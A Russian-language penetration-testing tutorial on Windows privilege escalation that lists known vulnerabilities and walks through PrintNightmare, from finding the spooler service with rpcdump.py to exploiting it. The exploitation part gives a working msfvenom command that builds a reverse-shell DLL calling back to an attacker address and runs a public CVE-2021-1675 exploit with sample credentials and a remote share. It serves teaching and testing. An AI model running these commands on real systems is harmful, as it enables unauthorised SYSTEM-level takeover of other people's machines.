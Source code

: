 ### Эксплуатация известных уязвимостей ОС Windows

Приведем пример некоторых достаточно популярных уязвимостей ОС, позволяющих повысить привилегии до максимальных:

    Уязвимость в установщике Windows (InstallerFileTakeOver (0day)
    Уязвимость в Windows Print Spooler (PrintNightmare)
    Уязвимость в планировщике задач Windows (MS10-092)
    Уязвимость в ядре Windows (MS16_014)
    Обработка вторичного входа в систему (MS16-032)

Для поиска известных уязвимостей в Windows для вашей версии ОС можно использовать как скрипты энумерации, так и ресурсы,
агрегирующие в себе подобную информацию (пример).

### Уязвимость в Windows Print Spooler (PrintNightmare)

Рассмотрим пример достаточно популярной уязвимости PrintNightmare, т.к. эта проблема до сих пор актуальна и может
встречаться в современных сетях компаний.

**Служба Windows Print Spooler** — это универсальный интерфейс между ОС, приложениями и локальными или сетевыми принтерами.
Она позволяет разработчикам приложений отправлять задания на печать.

**PrintNightmare** — это критическая уязвимость системы безопасности, затрагивающая операционную систему Microsoft Windows.
Есть два варианта ее эксплуатации: один разрешает удаленное выполнение кода, а другой ведет к повышению привилегий. Мы
рассмотрим вариант с повышением привилегий.

Поиск уязвимости

Для поиска уязвимости стоит обратиться к списку процессов. В списке процессов стоит обратить внимание на службу печати —
spoolsv:

Далее следует проверить, имеется ли доступ к данному сервису по TCP порту. Для этого можно удобно использовать утилиту
обращения к RPC сервисам Windows: rpcdump.py

>rpcdump.py @10.10.10.175 | egrep 'MS-RPRN|MS-PAR'

Эта команда выполняет две операции:

>rpcdump.py @10.10.10.175 — запускает утилиту rpcdump.py, которая использует протокол RPC (Remote Procedure Call) для
получения информации о доступных удаленных процедурах на хосте с IP-адресом 10.10.10.175.

>egrep 'MS-RPRN|MS-PAR' — фильтрует вывод утилиты rpcdump.py с помощью утилиты egrep, чтобы отобразить только строки,
содержащие "MS-RPRN" или "MS-PAR". Это позволяет отфильтровать информацию, связанную с протоколами Microsoft Remote

>Printing (MS-RPRN) и Microsoft Parallel Remote (MS-PAR), которые могут быть использованы для удаленного доступа к
принтерам и портам ввода-вывода соответственно.

Как работает уязвимость

Проблемы в службе печати Windows, приводящие к выполнению произвольного кода, не являются редким явлением.

Наиболее известная уязвимость в Windows, Print Spooler, используется в атаке Stuxnet: клиент использует вызов RPC для
добавления драйвера на сервер, сохраняя его в локальном или удаленном каталоге SMB.

Драйвер может содержать произвольный код, который будет выполняться на сервере с правами SYSTEM. Команду может выполнить
любой пользователь, прошедший аутентификацию в службе диспетчера очереди печати.

Другими словами — при наличии учетных данных пользователя появляется возможность выполнить любую DLL от имени SYSTEM.

Эксплуатация уязвимости

Для эксплуатации уязвимости необходимо подготовить DLL, которая будет загружена и исполнена, и воспользоваться
эксплойтом уязвимости.

DLL с “обратной оболочкой” можно создать при помощи msfvenom следующей командой:

>msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.16 LPORT=1337 -f dll -o /tmp/print.dll

Для его использования в последствии необходимо либо выложить DLL на файловый сервер, который будет доступен машине
жертвы, либо загрузить его на машину жертвы.

Для эксплуатации уязвимости можно выбрать публичный эксплойт и выполнить его командой:

>python3 ./CVE-2021-1675.py example.local/Alex:HappyHacking@192.168.0.134 '\\192.168.0.177\share\print.dll'

Таким образом, могут быть получены права SYSTEM через уязвимость в Windows — Print Spooler. Критичность данной
уязвимости повышается ещё и благодаря тому, что служба Windows Print Spooler включена в Windows по умолчанию, что
потенциально расширяет применимость данного вектора.

